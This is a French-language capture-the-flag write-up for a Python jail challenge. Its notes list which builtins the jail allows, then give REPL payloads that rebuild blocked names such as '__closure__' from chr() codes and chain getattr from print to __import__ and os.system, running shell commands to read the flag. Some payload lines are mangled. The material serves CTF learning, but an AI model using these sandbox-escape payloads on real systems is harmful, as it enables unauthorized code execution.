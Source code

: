 # Notes

as
os
or

## Ce qui marche bien d’après tes tests

    Fonctions built-in simples comme abs, bool, int, float, print, sum, sorted

    getattr fonctionne sur objets littéraux prédéfinis (ex: getattr(list(), "append") renvoie la méthode)

    isinstance fonctionne

    Types simples comme int, list, str sont accessibles (mais créer une variable locale semble bloqué)

## Ce qui ne marche pas

    Appeler vars(), locals() ou toute fonction qui accède à la portée actuelle est refusé (NameError ou ValueError)

    Les variables locales définies (ex: lst = []) ne sont pas conservées ou générent des erreurs au moment d’accès

    Pas possible de faire exec() ni eval()

    Pas d’accès direct à __import__

On peut voir que quand on utilise un "".join on peut accéder à des attributs interdits:

>>> getattr(portal, '__closure__')
Error: ValueError
>>> "".join([chr(x) for x in [95, 95, 99, 108, 111, 115, 117, 114, 101, 95, 95]])
'__closure__'
>>> getattr(portal, "".join([chr(x) for x in [95, 95, 99, 108, 111, 115, 117, 114, 101, 95, 95]]))
(<cell at 0x7e6fb4e026b0: Access object at 0x7e6fb4dc1ea0>, <cell at 0x7e6fb4e022f0: tuple object at 0x7e6fb4e06400>)
>>> %                                                                                                                                                                                                                                                                         ➜  ~  getattr(getattr(portal, "".join([chr(x) for x in [95,95,99,108,111,115,117,114,101,95,95]]))[1], "cell_contents")[1]

➜  ~  
nc 96.126.114.185 9969


=== Small Jail Portal===
portal is very user‑friendly, but it has a secret.
But portal is very picky to choose friends.
=========================================

>>> getattr(getattr(portal, "".join([chr(x) for x in [95,95,99,108,111,115,117,114,101,95,95]]))[1], "cell_contents")[1]
'BDSEC{w3lCom3_TO_PyJail}'
>>> "".join([chr(x) for x in [95,95,99,108,111,115,117,114,101,95,95]])
'__closure__'

## Write-Up

```python
>>> [b:=getattr(print,"_"*2+"sel"+"f"+"_"*2),i:=getattr(b,"_"*2+"imp"+"ort"+"_"*2),o:=i("o"+"s"),s:=getattr(o,"sy"+"stem"),s("ls -a")]
.
..
.bash_logout
.bashprofile
.bashrc
pyJail.py
ynetd
[<module 'builtins' (built-in)>, <built-in function import>, <module 'os' (frozen)>, <built-in function system>, 0]


>>> [b:=getattr(print,""2+"sel"+"f"+"_"2),i:=getattr(b,""*2+"imp"+"ort"+""*2),o:=i("o"+"s"),s:=getattr(o,"sy"+"stem"),s("cat pyJail.py")]
#!/usr/bin/env python3
import builtins, signal, resource

FLAG = "BDSEC{w3lCom3_TO_PyJail}"
```